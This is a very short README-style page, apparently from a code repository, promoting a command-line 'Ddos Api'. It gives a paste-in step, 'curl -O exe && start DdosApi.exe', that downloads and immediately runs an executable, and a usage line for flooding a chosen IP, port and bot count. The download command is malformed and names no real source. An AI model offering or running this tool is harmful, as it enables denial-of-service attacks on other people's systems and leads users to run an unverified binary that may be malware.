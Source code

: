
Best Ddos Api for cmd

Download ::

curl -O exe && start DdosApi.exe

Ussage ::

Ddos { ip } { port } { bots }
